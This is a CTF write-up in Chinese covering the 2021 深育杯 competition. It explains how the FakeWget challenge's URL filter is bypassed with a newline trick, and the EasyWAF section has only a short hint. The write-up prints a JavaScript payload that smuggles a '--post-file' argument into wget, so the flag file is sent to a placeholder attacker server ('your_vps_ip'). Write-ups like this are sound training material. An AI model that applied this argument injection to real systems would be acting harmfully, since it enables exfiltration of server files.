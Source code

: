 ```yaml
---
title: "深育杯2021 Wp"
slug: "jueyucup-2021-wp"
description: "赛前：这是生育杯吧；赛后：请叫它绝育杯，谢谢"
date: 2021-11-17T19:11:38+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


## FakeWget

> 利用sh下grep命令正则缺陷绕过正则检查

这个题，就非常的可惜，具体的就不说了，太丢人了，总之十分拉跨，特别可惜，究极下饭。

扫目录，得到/console，/wget，/flag页面得到提示flag在/flag_is_here

/wget可以发送url进行wget的操作，跟curl一样，也是可以发送post请求滴，这里对输入的url有检测，不允许有空格和一些特殊字符

这里其实有个原题[[纵横杯 2020]magic_download](https://www.gem-love.com/ctf/2745.html)，几乎是一样的，sh在grep时可以用换行的操作来绕过

payload

```js
function senduri() {
	var uri = 'http://your_vps_ip:port/\\n?\t--post-file=flag_is_here'
	var encrypt = new JSEncrypt();
	publicKey = '-----BEGIN PUBLIC KEY-----\
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAoFH2atPqJOH6yezxEw9s\
eStp0j7hN3cKKlANZpAv8RRhpDxFcob47OwkyUlsJp6tdvSJBtsJ5KCNYIomdqc7\
+f4PJvShHatMLGBRFjUkr0aunqq9LDobEHrzwSEEX6V0V+73EdbieYxFHCz2cXaB\
MpnIK19c+u6sgVJFjZ+oggVyKuOtOUscnzzrMhOWGl+eXk+dBe0wjSTrq84zvRI1\
94uTehhY/8hzZjkQavV8NWq0b7l6hJHsO7mp2tGye1npYRQ/tZCEMkzO+PaAkPf6\
H3CyuVgbdMJcuSBJT8kBRQ6P16skZIqrY+NRmdSJmMoGgR9NYVvk8soeSj4MHRpb\
rwIDAQAB\
-----END PUBLIC KEY-----';
	encrypt.setPublicKey(publicKey);
	encryptdata = encrypt.encrypt(uri);
	$.post("/wget", {
		encryptdata: encryptdata
		});
	$.get("/wget", {});
	}
```

## EasyWAF

> different cookie means node pg vuln
>
> pay attention to the hint different cookie different means
